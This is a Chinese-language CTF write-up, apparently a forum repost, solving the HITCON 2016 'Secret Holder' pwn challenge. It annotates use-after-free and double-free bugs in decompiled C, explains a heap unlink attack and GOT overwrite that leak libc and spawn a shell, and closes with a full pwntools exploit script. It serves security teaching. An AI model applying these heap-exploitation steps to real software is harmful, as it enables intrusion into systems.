# [CTF] HITCON CTF 2016 Secret Holdr

- 原帖：https://www.52pojie.cn/forum.php?mod=viewthread&tid=1820017
- 抓取时间：2026-11-01T22:48:23

## 前言

关于 `unlink` 我写了另一篇文章详细解释。`unlink` 初学时还是建议跟着调试一下，加深一下印象，文章中的注意点都是容易出错的地方。

[bbs.kanxue.com/thread-278315.htm](https://bbs.kanxue.com/thread-278315.htm)

## 检查文件信息



`屏幕截图 2023-08-10 181844.png` (96.58 KB, 下载次数: 2)

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNDU4MXxkNjhkZWMzN3wxNzkzNTczMzAwfDE2ODA4NnwxODIwMDE3&nothumb=yes)

1

2023-8-10 18:19 上传



`图片.png` (116.16 KB, 下载次数: 2)

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNDU4Mnw4YjIxZDI5YXwxNzkzNTczMzAwfDE2ODA4NnwxODIwMDE3&nothumb=yes)

2

2023-8-10 18:20 上传

ELF64 小端动态链接的 bin，没有开 PIE 和 FULL RELRO。



`图片.png` (28.71 KB, 下载次数: 2)

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNDU4M3wzOGY5Y2VjZXwxNzkzNTczMzAwfDE2ODA4NnwxODIwMDE3&nothumb=yes)

3

2023-8-10 18:21 上传



`图片.png` (148.79 KB, 下载次数: 0)

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNDYwMnw1OWM0ODJhOHwxNzkzNTczMzAwfDE2ODA4NnwxODIwMDE3&nothumb=yes)

5

2023-8-10 23:09 上传

我并未下载 2.19 的 glibc，还是先修改为 glibc2.23。

## 试运行



`图片.png` (61.21 KB, 下载次数: 3)

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNDU5OXxjNGU5ZjYzNHwxNzkzNTczMzAwfDE2ODA4NnwxODIwMDE3&nothumb=yes)

4

2023-8-10 21:27 上传

## 逆向分析

```c
/*main函数*/
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int v3; // eax
  char s[8]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  sub_400C80();
  puts("Hey! Do you have any secret?");
  puts("I can help you to hold your secrets, and no one will be able to see it :)");
  while ( 1 )
  {
    puts("1. Keep secret");
    puts("2. Wipe secret");
    puts("3. Renew secret");
    memset(s, 0, 4uLL);
    read(0, s, 4uLL); // 没有处理'\n'，没添加'\x00'，可能存在信息泄露风险
    v3 = atoi(s);
    switch ( v3 )
    {
      case 2:
        Wipe();
        break;
      case 3:
        Renew();
        break;
      case 1:
        Keep();
        break;
    }
  }
}
```

```c
/*Keep()函数*/
unsigned __int64 Keep()
{
  int v0; // eax
  char s[8]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Which level of secret do you want to keep?");
  puts("1. Small secret");
  puts("2. Big secret");
  puts("3. Huge secret");
  memset(s, 0, 4uLL);
  read(0, s, 4uLL); // 没有处理'\n'，没添加'\x00'，可能存在信息泄露风险
  v0 = atoi(s);
  if ( v0 == 2 )
  {
    if ( !big_in_use )
    {
      big_data = calloc(1uLL, 0xFA0uLL);
      big_in_use = 1;
      puts("Tell me your secret: ");
      read(0, big_data, 0xFA0uLL);
    }
  }
  else if ( v0 == 3 )
  {
    if ( !huge_in_use )
    {
      huge_data = calloc(1uLL, 0x61A80uLL);
      huge_in_use = 1;
      puts("Tell me your secret: ");
      read(0, huge_data, 0x61A80uLL);
    }
  }
  else if ( v0 == 1 && !small_in_use )
  {
    small_data = calloc(1uLL, 0x28uLL);
    small_in_use = 1;
    puts("Tell me your secret: ");
    read(0, small_data, 0x28uLL);
  }
  return __readfsqword(0x28u) ^ v3;
}
```

```c
/*Wipe()函数*/
unsigned __int64 Wipe()
{
  int v0; // eax
  char s[8]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Which Secret do you want to wipe?");
  puts("1. Small secret");
  puts("2. Big secret");
  puts("3. Huge secret");
  memset(s, 0, 4uLL);
  read(0, s, 4uLL); // 没有处理'\n'，没添加'\x00'，可能存在信息泄露风险
  v0 = atoi(s);
  switch ( v0 )
  {
    case 2:
      free(big_data);
      big_in_use = 0; // 并未将big_data置零，并未检查标志位是否为0，存在Double Free漏洞。
      break;
    case 3:
      free(huge_data); // 并未将huge_data置零，并未检查标志位是否为0，存在Double Free漏洞。
      huge_in_use = 0;
      break;
    case 1:
      free(small_data); // 并未将small_data置零，并未检查标志位是否为0，存在Double Free漏洞。
      small_in_use = 0;
      break;
  }
  return __readfsqword(0x28u) ^ v3;
}
```

很明显存在 UAF 漏洞和 Double Free 漏洞。

```c
/*Renew()函数*/
unsigned __int64 Renew()
{
  int v0; // eax
  char s[8]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Which Secret do you want to renew?");
  puts("1. Small secret");
  puts("2. Big secret");
  puts("3. Huge secret");
  memset(s, 0, 4uLL);
  read(0, s, 4uLL);  // 没有处理'\n'，没添加'\x00'，可能存在信息泄露风险
  v0 = atoi(s);
  if ( v0 == 2 )
  {
    if ( big_in_use )
    {
      puts("Tell me your secret: ");
      read(0, big_data, 0xFA0uLL);
    }
  }
  else if ( v0 == 3 )
  {
    if ( huge_in_use )
    {
      puts("Tell me your secret: ");
      read(0, huge_data, 0x61A80uLL);
    }
  }
  else if ( v0 == 1 && small_in_use )
  {
    puts("Tell me your secret: ");
    read(0, small_data, 0x28uLL);
  }
  return __readfsqword(0x28u) ^ v3;
}
```

### 2> 漏洞利用

没有开 FULL RELRO，可以考虑劫持 `got` 表，利用 UAF 实现堆块重叠，进而实现 `unlink`。

### 3> 扩展 `top_chunk`

利用 UAF 通过 Huge 控制 small 和 big 块。


# 漏洞利用分析

## `unlink` 阶段

```python
def unlink():
    keep(3, b'A')
    debug()  # 1
    wipe(3)
    debug()  # 2 这时已经调整了 mmap 分配阈值。
    keep(1, b'A')
    debug()  # 3
    wipe(1)  # 因为存在 UAF 和 DF，此时 small_ptr 指向 top_chunk_fd，可以通过 small_ptr 释放 huge_ptr
    debug()  # 4
    keep(3, b'A')
    debug()  # 5
    wipe(1)  # 因为存在 UAF 和 DF，此时 huge_ptr 和 small_ptr 指向同一位置，可以通过 small_ptr 释放 huge_ptr
    debug()  # 6
    keep(1, b'A')
    keep(2, b'A')
    debug()  # 7

    payload = flat(0, 0x21, small_ptr - 0x18, small_ptr - 0x10, 0x20, 0xfb0)
    renew(3, payload)
    wipe(2)
```

其实，很明显当前 `top_chunk` 无法满足 `huge_chunk(0x61A80)` 的分配，此时 `ptmalloc2` 会决定使用 `sbrk()` 还是 `mmap()` 分配内存。64bit 的 `mmap()` 阈值在 128k（`0x20000`）到 256k（`0x40000`）之间，而且是动态调整的。当我们申请并释放 `huge_chunk` 后，因为 `mmap()` 性能并不好，会动态调整 `mmap()` 阈值；当我们再次申请 `huge_chunk` 时，会通过 `sbrk` 来申请，再次释放的时候，`huge_chunk` 会进入 `top_chunk`。

`debug() # 1`



`debug() # 2`



当我们申请 `huge_chunk` 后，明显 `0x61A80` 大于 `0x40000`，会调用 `mmap()` 申请一块内存。释放后，这块 `mmap()` 申请到的内存会用 `munmap()` 返还给操作系统，`debug_1` 和 `debug_2` 无法使用 `heap` 命令原因如此。

`debug() # 3`



`debug() # 4`



当我们申请释放 3 的时候，`top_chunk` 并未改变大小，并且 `small_chunk`（名字叫 `small_chunk`，其实是 fastchunk）进入了 fast bin。

`debug() # 5`



这时我们申请的 `huge_chunk` 是通过 `sbrk` 得来的。

`debug() # 6`



通过 `small_ptr` 释放 `huge_chunk` 进入 `top_chunk`，`top_chunk` 成功扩大。

`debug() # 7`



此时 `huge_in_use` 并未被置为 0，而且 `huge_chunk` 包含了 `small_chunk` 和 `big_chunk`。`huge_ptr` 和 `small_ptr` 指向同一位置。

此时堆结构如下。



执行完 `payload` 后的布局如下。



此时 `wipe(2)` 即可实现 `unlink` 达到任意地址写的效果。至此我们成功将 `small_ptr` 指向了 `small_ptr-0x18` 的位置。

## 泄露 libc 基址并 getshell

```python
def get_shell():
    payload = flat(b'/bin/sh\x00', elf.got['free'], elf.got['puts'], small_ptr - 0x18) + p64(0xdeadbeef)
    renew(1, payload)
    renew(2, flat(elf.plt['puts']))
    wipe(3)
    libc_base = u64(p.recvline()[:-1].ljust(8, b'\x00')) - libc_elf.sym['puts']
    libc_elf.address = libc_base
    renew(2, flat(libc_elf.sym['system']))
    wipe(1)
    p.interactive()
```

### `unlink` 前后 `bss` 布局

`unlink` 前 `bss` 原布局：



`unlink` 后 `bss` 新布局：



将第一个 `payload` 写入后，`bss` 布局如下。



`renew(2, flat(elf.plt['puts']))` 就是将 `free_got` 改为 `puts_plt`。



然后 `wipe(3)` 将会打印出 `puts_got` 保存的真实地址，根据 libc 里面 `puts` 的偏移可以算出栈的基址。同理，`renew(2, flat(libc_elf.sym['system']))` 将 `free_got` 保存的内容由 `puts_plt` 改为 `system` 的真实地址，然后 `wipe(1)` 就是执行 `system(new_small)`，也就是 `system("/bin/sh\x00")`。



## 完整 `exp`


```
from pwn import *

context.arch='amd64'
context.terminal=['tmux', 'splitw', '-h']

elf = ELF('./secretHolder_hitcon_2016')
libc_elf = ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')
small_ptr = 0x6020b0

p = process('./secretHolder_hitcon_2016')

def debug():
    gdb.attach(p)
    pause()

def keep(idx, msg):
    p.sendlineafter(b"3. Renew secret\n", b'1')
    p.sendlineafter(b"3. Huge secret\n", str(idx).encode())
    p.sendafter(b"Tell me your secret: ", msg)

def wipe(idx):
    p.sendlineafter(b"3. Renew secret\n", b'2')
    p.sendlineafter(b"3. Huge secret\n", str(idx).encode())

def renew(idx, msg):
    p.sendlineafter(b"3. Renew secret\n", b'3')
    p.sendlineafter(b"3. Huge secret\n", str(idx).encode())
    p.sendafter(b"Tell me your secret: ", msg)

def unlink():
    keep(3, b'A')
    #debug() # 1
    wipe(3)
    #debug() # 2
    keep(1, b'A')
    #debug() # 3
    wipe(1)
    #debug() # 4
    keep(3, b'A')
    #debug() # 5
    wipe(1)
    #debug() # 6
    keep(1, b'A')
    keep(2, b'A')
    #debug() # 7

    payload = flat(0,0x21, small_ptr-0x18, small_ptr-0x10, 0x20, 0xfb0)
    renew(3, payload)
    wipe(2)

def get_shell():
    payload = flat(b'/bin/sh\x00', elf.got['free'], elf.got['puts'], small_ptr-0x18) + p64(0xdeadbeef)
    renew(1, payload)
    renew(2, flat(elf.plt['puts']))
    wipe(3)
    libc_base = u64(p.recvline()[:-1].ljust(8, b'\x00')) - libc_elf.sym['puts']
    libc_elf.address = libc_base

    renew(2, flat(libc_elf.sym['system']))
    wipe(1)
    p.interactive()

def pwn():
    unlink()
    get_shell()

if __name__ == '__main__':
    pwn()
```
